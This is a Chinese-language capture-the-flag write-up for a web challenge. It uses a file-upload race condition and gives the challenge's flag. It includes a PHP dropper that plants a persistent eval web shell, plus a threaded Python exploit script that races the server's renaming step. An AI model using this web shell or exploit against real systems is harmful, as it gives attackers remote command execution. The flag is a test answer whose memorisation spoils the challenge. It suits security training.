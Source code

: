 - **题目名称：** upload_quick
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** fru1ts
- **考点：** 

1. 文件上传
2. 条件竞争

- **描述：** newnew的逻辑总是颠三倒四，令人困惑，milktea经常以飞快的速度在不经意间看到newnew的秘密
- **flag：** `XSCTF{fi1e_uplooooooooad_intetesting_491346}`
- **Writeup：** 

1.获取页面源码（3种方法）：

- `view-source:url` / Ctrl + U
- 打开开发者工具（不要用快捷键，已经锁死）
- burpsuit

在`EasePack.min.js`找到提示：`you find me, good luck for you! Now go to Upl00000000ad.php`

2.访问`/Upl00000000ad.php`进行文件上传。通过尝试发现文件成功传上去，然后非图片的后缀再被改成`.jpg`，所以可以通过条件竞争在被修改后缀前上传`websehll`。

思路：使用两个线程，一个线程上传php文件，另一个线程访问传上去的php使之执行。

为了留下稳定的后门，在上传的php里面写一个创建后门文件

```php
#a.php
<?php
fputs(fopen("shell.php","w"),'<?php @eval($_POST["cmd"]);?>');
?>
```

exp

```python
import requests
import threading

url = ''


def POST1():
    for i in range(50):
        filename = 'a.php'
        file = {"upload_file": open(filename, "rb")}
        r = requests.post(url=url + 'Upl00000000ad.php', data={'submit': 'True'}, files=file)

        # print(r.text)


def POST2():
    for i in range(50):
        r = requests.get(url=url + 'uploads/a.php')
        if r.status_code == 200:
            r=requests.get(url=url+'uploads/shell.php')
            if r.status_code==200:
                print('ok')
                break
        # print(r.text)



threading.Thread(target=POST1).start()
threading.Thread(target=POST2).start()


```

蚁剑连接`url/uploads/shell.php`

